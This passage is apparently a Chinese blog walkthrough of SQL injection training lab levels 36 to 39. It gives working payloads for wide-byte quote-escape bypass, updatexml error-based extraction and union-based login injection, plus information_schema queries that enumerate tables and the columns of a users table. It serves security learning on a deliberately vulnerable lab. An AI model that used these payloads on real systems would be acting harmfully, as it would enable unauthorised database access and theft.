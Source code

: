 ![image-20220922115951075](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922115951075.png)

## 第三十六关

```
1%df' and updatexml(1,concat(0x7e,database(),0x7e),1)--+
```

![image-20220922120557735](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922120557735.png)

## 第三十七关

```
uname=%df' union select database(),2 limit 0,1-- 
&passwd=
&submit=Submit
```

![image-20220922120847455](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922120847455.png)

## 第三十八关

```
id=1%df'and updatexml(1,concat(0x7e,database(),0x7e),1)--+
```

![image-20220922121052920](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922121052920.png)

## 第三十九关

这关没有任何防御措施

```
?id=9%20and(1=1)limit%200,1--+
```

![image-20220924090650093](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924090650093.png)

但题目要求堆叠查询注入，所以首先使用查询注入获取表名

```
SELECT GROUP_CONCAT(CONCAT_WS(" * ",a.TABLE_NAME) SEPARATOR ' ') from (select Distinct TABLE_NAME from information_schema.`COLUMNS` WHERE TABLE_SCHEMA=database()) as a
```

![image-20220924093422097](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220924093422097.png)

获取user表字段

```
SELECT GROUP_CONCAT(CONCAT_WS(" * ",a.COLUMN_NAME) SEPARATOR ' ') from (select Distinct COLUMN_NAME from information_schema.`COLUMNS` WHERE table_name = 'users' and table_schema='security') as a
```
